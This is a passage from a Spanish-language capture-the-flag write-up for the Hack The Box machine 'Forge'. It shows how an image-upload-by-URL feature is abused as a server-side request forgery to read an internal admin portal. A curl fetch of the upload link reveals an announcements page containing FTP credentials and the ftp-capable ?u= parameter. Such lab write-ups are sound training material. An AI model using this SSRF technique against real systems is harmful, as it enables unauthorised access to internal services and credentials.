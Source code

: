 ```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

En este pequeño código en html, descubrimos que existe un recurso **`Announcements`** apuntando al directorio **`/announcements`**
Tratemos de subir este recurso mediante URL, y una vez obtengamos el enlace que nos genera, volvemos a ejecutar curl.

```console
p3ntest1ng:~$ curl http://forge.htb/uploads/ID2lXNU92oVNZ2HcMntO
```

```html
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

